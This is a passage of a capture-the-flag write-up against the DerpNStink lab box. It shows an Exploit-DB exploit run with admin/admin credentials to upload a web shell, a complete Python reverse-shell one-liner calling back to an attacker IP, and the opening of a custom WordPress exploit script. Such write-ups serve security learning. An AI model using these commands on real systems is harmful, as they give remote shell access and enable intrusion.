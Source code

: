 ## 2.2 Shell reverse with public exploit
https://www.exploit-db.com/exploits/34681/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

`python2.7 34681.py -t http://derpnstink.local/weblog/ -u admin -p admin -f shell.php`
![22cb00c08d1c0d9ad16bd5bf467c414a.png](./_resources/02db80b645824cfe87147a22306371b3.png)

`python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.196.121",4446));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![236ced6bced5a513177f972226116d57.png](./_resources/13dc6a084b7d4978a38fcca0bba5c75e.png)
![a45f59d518c25fd9d8543ea4ebbd653f.png](./_resources/4ad45c45e6c74b7e997d911b176751b5.png)

## 2.2 Web shell with coded exploit
http://whitexploit.blogspot.com/ <- explanation about the vuln
```
#!/usr/bin/env python3
#! Exploit by byth22 - Kellvin Romano
import requests
import os

def login(username,password):
    cookies = {
        'wordpress_test_cookie': 'WP+Cookie+check',
    }

    headers = {
        'Host': 'derpnstink.local',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '114',
        'Origin': 'http://derpnstink.local',
        'Connection': 'close',
        'Referer': 'http://derpnstink.local/weblog/wp-login.php?loggedout=true',
        'Upgrade-Insecure-Requests': '1',
    }
```